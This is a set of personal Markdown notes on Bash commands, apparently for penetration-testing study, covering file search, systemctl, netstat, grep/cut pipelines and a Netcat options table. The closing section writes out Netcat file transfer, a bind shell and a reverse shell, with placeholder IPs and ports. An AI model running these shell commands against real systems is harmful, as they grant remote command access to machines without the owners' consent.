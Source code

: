 # Notes
https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet

# Bash commands

## Etc
updatedb

### Search
* locate sbd.exe
* which sbd
* find / -name sbd*

### Starting and stopping services manually
systemctl [command] [service]
command: start/stop
service: ssh/apache

### Enabling and disabling services starting on boot
systemctl [command] [service]
command: enable/disable
service: ssh/apache

### Verifying service is running
netstat -antp | grep [service]
service: sshd/apache

### grep (global regular expression print)
#### grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
* grep "href=" index.html   (from index.html, extract all lines that contain "href=")
* cut -d "/" -f 3           (split using the front slash delimiter at the 3rd field)
* grep "\."                 (from previous outputs, extract all lines that contain a period)
* cut -d '"' -f 1           (from previous outputs, split using the double quotation mark delimiter at the 1st field)
* sort -u                   (sort unique)

#### for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u
*  for url in $(cat list.txt); do host $url; done    (for loop, iterates through each line in list.txt with each line as $url and runs host)
* grep "has address"                                (extract all lines that contain "has address")
* cut -d " " -f 4                                   (split using the space delimiter at the 4th field)
* sort -u                                           (sort unique)

### nc (Netcat)

Options | Definition
--- | ---
-l |  Listen mode (default is client mode)
-L |  Listen harder (only on Windows Netcat). Makes Netcat a persistent listener which listens again after a client disconnects
-u |  UDP mode (default is TCP)
-p |  Local port (in listen mode, this port is listened on. In client mode, this is source port for all packets sent)
-e | Program to execute after connection occurs, connecting STDIN and STDOUT to the program
-n | Don't perform DNS lookup on names of machines on other side
-z | Zero-I/O mode (don't send any data, just emit a packet without payload)
-wN | Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running
-v |  Verbose, printing out messages on Standard Error, such as when a connection occurs
-vv | Very verbose, printing even more details on Standard Error

#### nc -nv [ip] [port] (testing if port is open)
#### nc -nlvp [port] (listening to port)
#### Transferring files with netcat
* nc -nlvp [port] > [file]        (redirects any incoming input to the $port into the $file)
* nc -nv [ip] [port] < [file]     (sends $file through $port)
#### Netcat bind shell
* nc -nlvp [port] -e cmd.exe (Netcat has bound $port to cmd.exe and will redirect any messages from cmd.exe to the network)
* Listener sets up netcat so that anyone connecting to listener's IP and port will be given access to listener's cmd.exe
#### Netcat reverse bind shell
* nc -nv [ip] [port] -e /bin/bash
* Sending shell access to $ip and $port
